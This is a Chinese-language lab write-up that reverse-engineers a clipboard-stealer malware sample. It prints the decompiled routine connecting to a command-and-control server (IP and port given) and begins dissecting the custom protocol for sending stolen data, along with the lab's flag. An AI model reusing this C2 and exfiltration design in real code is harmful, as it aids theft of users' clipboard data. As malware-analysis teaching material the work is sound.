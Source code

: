     ![](https://hackmd.io/_uploads/SJoeiepGT.png)
    ![](https://hackmd.io/_uploads/rk7SigpGp.png)

## Lab-Clipboard Stealer 5 -- sub_140001C80
Flag: `FLAG{C2_cU540m_Pr0t0C01}`
### 解題流程與思路
1. `connet_to_c2`
    目標是取得c2 server的IP和port number
    1. 先看到#12的socket function，他代表的意思是利用IPv4並且TCP的protocol進行溝通，相關的數值說明都在[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)，可以用前面教到的用m指令改變已知的constant名稱$\to$`v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);`
    2. 接著看到connect function中的`&name`，IDA原本解析成sockaddr，sockaddr是一種通用的結構格式，所以IDA解析出來的東西也沒有問題，不過如果是IPv4又是乙太網路的傳輸，會比較建議把結構改成==sockaddr_in==，[這一篇](https://blog.csdn.net/tao546377318/article/details/72780685)探討了兩者的區別(其實就只是把sockaddr原本的結構擴展而已)，這樣的話整體分析會更好
            解析後
        ```cpp
        void __fastcall connect_to_c2(unsigned __int64 *a1)
        {
          unsigned __int64 v2; // rax
          struct sockaddr_in name; // [rsp+20h] [rbp-1B8h] BYREF
          struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF
        
          if ( !WSAStartup(0x202u, &WSAData) )
          {
            name.sin_addr.S_un.S_addr = 0xA0AA8C0;      // IP: 192.168.10.10
            name.sin_port = htons(11187u);              // Port No.: 11187
            name.sin_family = AF_INET;
            v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
            *a1 = v2;
            connect(v2, &name, 16);
          }
        }
        ```
        
    
    info
    IP: 0xA0AA8C0 $\to$ `192.168.10.10`(little endian轉十進位)
    Port: `11187`
    sin.family: IPv4
    Protocol: TCP
    
2. `send_collected_data_to_c2`
    1. 先切分程式碼的功能
        ![](https://hackmd.io/_uploads/rkci81Aza.png)
        有時候通靈不一定很準，所以要適時的回頭檢查自己的猜測
    2. 前四行初始化的階段(malloc 0x4c然後塞三個dword)，應該是作者自定義的結構，可以利用Structures，自定義一個新的結構，大小就是0x4C，然後前三個可以定義為dd，並且把v4的結構改成packet(按Y)
        ![](https://hackmd.io/_uploads/ByQtqk0Mp.png)
    3. 各種rename
        * field_0看起來像是一個magic bytes，因為一開始附值之後，傳送過去server，再接收回來的packet也是有做驗證的動作，所以看起來是一個verification magic
        * field_8看起來就是接收來自server下達的command
        * field_C就比較多元，在case 1的時候是當作承接server給的encryption key(大小是8個bytes)，但在case 2是當作加密的cipher(大小是0x18個bytes)，所以我取名`enc_key_or_data`，另外大小是0x18(可以從memcpy的大小看出來)，所以可以按Y改變型別成`char[0x18]`
        info
        目前整體的流程
        ![](https://hackmd.io/_uploads/HJJB7gCf6.png)
        ![](https://hackmd.io/_uploads/BkHSXeCM6.png)
    